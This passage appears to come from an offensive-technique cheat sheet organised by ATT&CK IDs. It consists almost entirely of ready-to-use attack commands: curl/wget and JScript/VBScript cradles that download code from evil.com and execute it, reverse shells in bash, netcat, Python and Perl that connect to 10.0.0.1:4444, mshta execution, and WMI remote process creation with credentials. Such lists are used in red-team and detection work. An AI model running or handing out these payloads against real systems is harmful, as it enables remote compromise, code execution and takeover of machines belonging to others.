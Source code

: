```bash
# Download and execute
curl http://evil.com/payload.sh | bash
wget -O - http://evil.com/payload.sh | sh

# Reverse shell one-liners
bash -i >& /dev/tcp/10.0.0.1/4444 0>&1
bash -c 'bash -i >& /dev/tcp/10.0.0.1/4444 0>&1'

# Netcat reverse shell
nc -e /bin/sh 10.0.0.1 4444
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.0.0.1 4444 >/tmp/f

# Python reverse shell (when bash restricted)
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.0.0.1",4444));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);subprocess.call(["/bin/sh","-i"])'

# Perl reverse shell
perl -e 'use Socket;$i="10.0.0.1";$p=4444;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'
```

### 1.4 JavaScript/VBScript (T1059.007)

```javascript
// JScript download and execute
var xhr = new ActiveXObject("Microsoft.XMLHTTP");
xhr.open("GET", "http://evil.com/payload.js", false);
xhr.send();
eval(xhr.responseText);

// Mshta execution
mshta javascript:close(new%20ActiveXObject("WScript.Shell").Run("calc.exe"))

// VBScript download cradle
Set objXMLHTTP = CreateObject("MSXML2.XMLHTTP")
objXMLHTTP.open "GET", "http://evil.com/payload.vbs", False
objXMLHTTP.send()
Execute(objXMLHTTP.responseText)
```

---

## 2. Windows Management Instrumentation (T1047)

### 2.1 WMI Command Execution

```powershell
# Execute command via WMI
wmic /node:TARGET process call create "cmd.exe /c calc.exe"

# With credentials
wmic /node:TARGET /user:DOMAIN\admin /password:pass process call create "powershell.exe"

# PowerShell WMI execution
Invoke-WmiMethod -Class Win32_Process -Name Create -ArgumentList "cmd.exe /c calc.exe" -ComputerName TARGET

# Create remote process
$cred = Get-Credential
Invoke-WmiMethod -Class Win32_Process -Name Create -ArgumentList "powershell.exe -enc <BASE64>" -ComputerName TARGET -Credential $cred
```